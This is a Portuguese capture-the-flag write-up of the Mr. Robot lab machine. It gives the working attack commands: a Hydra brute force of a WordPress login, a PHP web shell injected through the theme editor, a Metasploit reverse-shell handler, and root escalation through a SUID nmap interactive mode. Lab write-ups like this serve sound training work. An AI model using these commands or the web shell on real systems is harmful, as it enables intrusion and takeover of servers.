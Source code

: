 Mr Robot CTF - Full Report

Objetivo
Explorar vulnerabilidades em uma máquina baseada na série Mr. Robot, capturando 3 flags através de exploração web, quebra de hashes e escalação de privilégios.

🛠️ Ferramentas Utilizadas
Ferramenta		Comando/Exemplo	Finalidade
Nmap			nmap -sV -p- 10.10.10.10	Varredura de portas e serviços
Dirb			dirb http://10.10.10.10	Enumeração de diretórios web
John the Ripper	john 	hash.txt --wordlist=rockyou.txt	Quebra de hashes
Metasploit		use exploit/unix/webapp/wp_admin_shell_upload	Exploração WordPress


🔍 Passo a Passo Detalhado
1. Enumeração Inicial

Comando Nmap:
nmap -sV -sC -p- 10.10.10.10 -oN scan.txt


Serviços Encontrados:
80/tcp  open  http    Apache httpd  
443/tcp open  ssl/http Apache httpd  


2. Exploração Web

2.1. Robots.txt:
Acessando http://10.10.10.10/robots.txt encontramos:
User-agent: *  
Disallow: /fsocity.dic  
Disallow: /key-1-of-3.txt  

Flag 1: key-1-of-3.txt (no diretório raiz)


2.2. Wordlist Vazada:
O arquivo fsocity.dic contém credenciais possíveis para brute force.


2.3. Login WordPress:

URL: http://10.10.10.10/wp-login.php
Usuário encontrado: elliot

Quebra de senha com Hydra:
hydra -l elliot -P fsocity.dic 10.10.10.10 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect"

Senha encontrada: ER28-9U2


3. Exploração do WordPress

3.1. Upload de Shell Reverso:
Usar o plugin Theme Editor para injetar um payload PHP:
<?php system($_GET['cmd']); ?>

Acessar o shell em:
http://10.10.10.10/wp-content/themes/twentyfifteen/cmd.php?cmd=id


3.2. Shell Interativo:

Usar Metasploit para obter shell estável:

msfconsole  
use exploit/multi/handler  
set payload linux/x86/meterpreter/reverse_tcp  
set LHOST seu_ip  
exploit


4. Escalação de Privilégios

4.1. Encontrar Binários SUID:
find / -perm -4000 2>/dev/null  

Resultado: /usr/local/bin/nmap (versão antiga com modo interativo)


4.2. Abuso do Nmap:
/usr/local/bin/nmap --interactive  
nmap> !sh  
whoami  # root!  

Flag 3: /root/key-3-of-3.txt


🏆 Artefatos Coletados
Flag		Localização			Método de Captura
key-1		/key-1-of-3.txt			Robots.txt
key-2		/home/robot/key-2-of-3.txt	Quebra de hash MD5 (cat password.raw-md5)
key-3		/root/key-3-of-3.txt		Escalação via SUID (nmap)


💡 Lições Aprendidas
Robots.txt pode vazar arquivos sensíveis
WordPress é alvo comum (plugins/usuários fracos)
Binários SUID são vetores poderosos de escalação

